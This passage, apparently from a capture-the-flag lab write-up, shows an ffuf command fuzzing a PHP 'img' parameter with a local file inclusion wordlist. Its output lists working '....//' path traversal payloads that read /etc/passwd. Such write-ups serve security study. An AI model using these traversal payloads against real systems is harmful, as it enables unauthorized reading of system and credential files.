 Having configured the request file, we can run `ffuf` against it. 

```console
$ ffuf -r -c -request req.txt -request-proto 'http' -w /opt/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt -fs 0


        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://include.thm:50000/profile.php?img=FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Header           : Cookie: PHPSESSID=gbvb62jo9gnq3vbbknsie463i7
 :: Header           : X-PwnFox-Color: orange
 :: Header           : Host: include.thm:50000
 :: Header           : User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:126.0) Gecko/20100101 Firefox/126.0
 :: Header           : Accept: image/avif,image/webp,*/*
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Connection: keep-alive
 :: Header           : Referer: http://include.thm:50000/dashboard.php
 :: Header           : Priority: u=4
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2231, Words: 20, Lines: 42, Duration: 191ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2231, Words: 20, Lines: 42, Duration: 188ms]
[...SNIP...]
```

After fuzzing we find some path traversal sequences that work. Testing one of those in Burp, we find that it does in fact work to grab the `/etc/passwd` file. 
